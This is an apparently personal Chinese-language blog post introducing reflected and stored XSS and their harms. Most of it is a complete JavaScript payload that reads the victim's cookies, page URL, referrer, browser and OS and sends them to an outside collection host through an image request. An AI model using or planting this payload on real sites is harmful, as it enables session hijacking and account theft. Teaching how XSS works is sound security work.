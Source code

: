 title: XSS(Cross Site Scripting) 跨站脚本
date: 2013-03-23 23:52:12
tags:

- security

---


> XSS（Cross Site Scripting）中文名跨站脚本攻击。攻击原理是攻击者将恶意代码植入到页面中，导致浏览该页面的用户即会中招！这次主要讲讲攻击方法。

<!-- more -->

按照我的理解XSS也能分为几类，[XSS](http://wufeifei.com/xss.html)、Flash XSS、UXSS等，这篇主要讲下普通XSS，一般XSS也分为两种形态：

1.反射型

 ** 通过构造恶意代码插入链接中，由于过滤不严直接显示在页面内触发XSS **

 2.储存型

  ** 通过表单等地方提交恶意构造代码，后端存入数据库，在显示该数据的页面会触发XSS **
   
简单的理解就是由于过滤不严导致能写入JS代码，获得JS代码控制权后能做很多事情，常见危害如下：
     
* 盗取回话
* 控制用户操作（CSRF）
* 发起DDOS攻击
* 篡改页面
* 等等

针对每一个攻击进行详细讲解：


#### 盗取会话

     服务器是以SESSION来识别用户，而SESSION在客户端浏览器中是存在COOKIE里！也就是说如果我们能拿到某个用户的COOKIE，我们就能获得他帐号的权限了。而JS是可以很方便的取到COOKIE！

流程图：

[![XSS盗取用户会话](http://wufeifei.com/img/XSS盗取会话.png)][]

恶意脚本：

```Javascript
var img = document.createElement("img"),referrer = null,browser = null,screensize = null,system = null
referrer = document.referrer
/*var bro = $.browser
if(/chrome/.test(navigator.userAgent.toLowerCase())){
	browser = 'Chrome' + ' ' + bro.version
}else if(bro.webkit){
	browser = 'Webkit' + ' ' + bro.version
}else if(bro.safari){
	browser = 'Safari' + ' ' + bro.version
}else if(bro.opera){
	browser = 'Opera' + ' ' + bro.version
}else if(bro.msie){
	if(bro.version.slice(0,1) == "8"){
		browser = 'IE8'
	}else if(bro.version.slice(0,1) == "7"){
		browser = 'IE7'
	}else if(bro.version.slice(0,1) == "6"){
		browser = 'IE6'
	}
}else if(bro.mozilla){
	browser = 'Mozilla' + ' ' + bro.version
}*/
browser = navigator.appName
if(/chrome/.test(navigator.userAgent.toLowerCase())){
	browser = "Chrome"
}
screensize = screen.width + '*' + screen.height 
if (navigator.appVersion.indexOf("NT 5.1")!=-1){
	system = 'Windos XP'
}else if(navigator.appVersion.indexOf("NT 6.0")!=-1){
	system = 'Windows Vista'
}else if(navigator.appVersion.indexOf("NT 6.1")!=-1){
	system = 'Windows 7'
}else if(navigator.appVersion.indexOf("Mac OS X 10.0")!=-1){
	system = 'MacOS 猎豹(Cheetah)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.1")!=-1){
	system = 'MacOS 美洲狮(Puma)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.2")!=-1){
	system = 'MacOS 美洲虎(Jaguar)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.3")!=-1){
	system = 'MacOS 黑豹(Panther)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.4")!=-1){
	system = 'MacOS 老虎(Tiger)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.5")!=-1){
	system = 'MacOS 豹子(Leopard)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.6")!=-1){
	system = 'MacOS 雪豹(Snow Leopard)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.7")!=-1){
	system  = 'MacOS 狮子(Lion)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.8")!=-1){
	system = 'MacOS 美洲狮(Mountain Lion)'
}else if(navigator.appVersion.indexOf("Linux")!=-1){
	system = 'Linux'
}else if(navigator.appVersion.indexOf("X11 ")!=-1){
	system = 'Unix'
}
img.src = "http://safe.feei.cn/admin.php?location="+escape(document.location)+"&cookie="+escape(document.cookie)+"&referrer="+escape(referrer)+"&browser="+escape(browser)+"&screensize="+escape(screensize)+"&system="+escape(system);
document.body.appendChild(img);
```
未完待续...
